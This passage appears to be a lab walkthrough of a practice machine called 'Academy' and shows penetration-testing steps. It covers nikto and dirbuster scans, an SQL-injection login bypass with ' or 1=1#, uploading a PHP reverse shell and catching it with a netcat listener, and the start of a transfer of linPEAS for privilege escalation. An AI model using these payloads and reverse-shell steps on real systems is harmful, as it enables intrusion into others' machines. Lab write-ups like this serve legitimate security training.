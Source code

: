 * We can begin enumeration, starting with HTTP, and parallely enumerate other ports and services such as FTP:

  * We visit the link <http://10.0.2.15> for port 80/tcp. It gives us a generic Apache 2 Default Debian Page.

  * Information disclosure - Apache manual link given in <http://10.0.2.15> leads to 404 page with Apache version 2.4.38.

  * We can proceed to use a web application scanner here:

  ```shell
  nikto -h 10.0.2.15 #lists all vuln in website
  #Allowed HTTP Methods: GET, POST, OPTIONS, HEAD 
  #Uncommon header 'x-ob_mode' found, with contents: 1
  #Cookie goto and back created without the httponly flag
  #found /phypmyadmin/ChangeLog, /icons/README, /phpmyadmin/, /phpmyadmin/README

  dirbuster #tool for directory scanning, this lists more directories in website
  #the two major directories we get are /academy and /phpmyadmin
  ```

  * If we visit <http://10.0.2.15/academy>, we get a login portal. Attempting SQL injection by entering ```' or 1=1#```, we manage to log in as 'Rum Ham'.

  * Exploring the website further, we get more details about the user.

  * Information disclosure - In <http://10.0.2.15/academy/my-profile.php>, we get info; Student Name - Rum Ham; Student Reg No - 10201321; Pincode - 777777; CGPA - 7.60.

  * The Profile page also contains an option to upload a profile pic, so we can attempt to upload a PHP reverse shell here to see if it works.

  * Using any PHP reverse shell, such as the one given in <https://github.com/pentestmonkey/php-reverse-shell> we can proceed:

  ```shell
  vim academyshell.php #create file and open it
  #paste shell contents and edit the IP address of machine
  #save file and exit  

  nc -nvlp 1234 #netcat to listen at port 1234 (given in shell)

  #now we can upload the reverse shell in the website
  #this gives us access to the machine

  whoami
  #www-data
  ```

  * As we are not root here, we will have to use privilege escalation.

  * We can use a script called linPEAS on <https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS>, which checks vulnerabilities related to privilege escalation:

  ```shell
  #in a new terminal tab
  mkdir transfers #directory for separating files

  cd transfers/

  vim linpeas.sh #copy script content, save file

  #now we can start our web server here, so that we can get back to www-data on Academy and download this script
  python3 -m http.server 80 #hosts web server
  ```
